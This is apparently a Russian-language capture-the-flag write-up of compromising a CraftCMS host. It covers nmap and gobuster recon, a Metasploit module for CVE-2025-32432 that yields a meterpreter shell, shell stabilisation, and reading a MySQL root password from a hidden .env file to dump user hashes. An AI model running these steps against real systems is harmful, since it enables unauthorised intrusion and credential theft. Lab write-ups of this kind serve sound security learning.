



## Содержание
- [Разведка (Recon)](#разведка-recon)
- [Эксплуатация (Exploitation)](#эксплуатация-exploitation)
- [Повышение привилегий (PrivEsc)](#повышение-привилегий-privesc)
- [Тупики (DeadEnds)](#тупики-deadends)

##Разведка (Recon)

Запускаем nmap сканирование:

'''bash
nmap -sC -sV Ip-цели

Мы видим открытый 80 порт, значит можно сразу запустить gobuster, что бы он перечислил конечные точки:

Запуск сканера Gobuster:

'''bash
gobuster dir -u  http://IP-цели -w /usr/share/wordlists/dirb/common.txt

Мы видим код ошибки 302,говорящий нам о существовании папки /admin.При переходе в неё на сайте нас автоматически перекидывает в папку /login, где есть так же указана версия CraftCMS:

##Эксплуатация (Exploitation)

Зная версию CraftCMS, проверим в интернете нет ли на неё каки-нибудь CVE. И видим что на неё есть "CVE-2025-32432"

Зайдя в msfconsole, проверим наличие данной cve командой:

'''msf

search CVE-2025-32432

Используем эту cve и устонавливаем параметры RHOSTS URL-страницы с /admin/login и LHOST наш IP и командой "run" мы получаем сессию meterpreter

##Повышение привилегий (PrivEsc)

Перейдём из meterpreter в обычный shell вписав "shell"

Нам нужно стабилизировать оболочку.Для этого выполним команду:

python3 -c 'import pty; pty.spawn("/bin/bash")'

Далее командой "ls -la" мы находим скрытый файл .env, который хранит в себе пароль от БД MySql

Следовательно мы можем проверить эту БД командой:

'''bash

mysql -u root -p пароль

Выводим командой "show databases;" все БД и находим там БД Orion

Заходим туда командой "use orion" и раскрываем все столбцы "show tables;"

Заходим в таблицу users командой "select * from users;" находим пользователя с хэшом.

##Тупики (DeadEnds)

1.После перехода на сайт цели я запустил gobuster и он мне выдал ошибку 302.Я конечно сразу не понял почему он не перечислил конечные точки,но забив информацию в интернети про этот код ошибки я понял,что это говорит нам о существовании папки /admin
2.После стабилизации оболочки я долго лазил по папкам и ничего не мог найти совершенно забыв проверит скрытые папки 
